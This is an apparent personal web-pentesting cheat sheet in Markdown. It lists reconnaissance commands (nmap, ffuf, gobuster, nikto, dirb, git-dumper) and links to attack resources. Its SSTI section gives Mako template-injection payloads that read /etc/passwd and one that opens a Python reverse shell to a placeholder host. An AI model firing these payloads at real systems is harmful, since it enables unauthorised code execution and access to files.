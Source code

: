 # Web stuff

## Enum

## Resources
- [:alien: Revshells](https://www.revshells.com/)
- [hacktricks](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology)
- [prototype pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

  
### nmap
```shell
nmap -sC -A -T4 <ip>
```

### ffuf
```shell
ffuf -u http://<url>/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```shell
ffuf -u http://<url> -w /usr/share/dnsrecon/subdomains-top1mil.txt -H "Host: FUZZ.<domain>.com" -fc 301
```

### gobuster
```shell
gobuster dir -u http://<url> -w /usr/share/wordlists/dirb/common.txt
```

### Nikto
```shell
nikto -host <ip>
```

### dirb
```shell
dirb <url> /usr/share/wordlists/dirb/common.txt
```

### Git Dumper
```
pip install git-dumper
git-dumper https://some-url/.git ./meow
ls ./meow
```

## SSTI

### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

## Foothold
- Look for
    - SSTI
    - SQL injections
    - SSRF


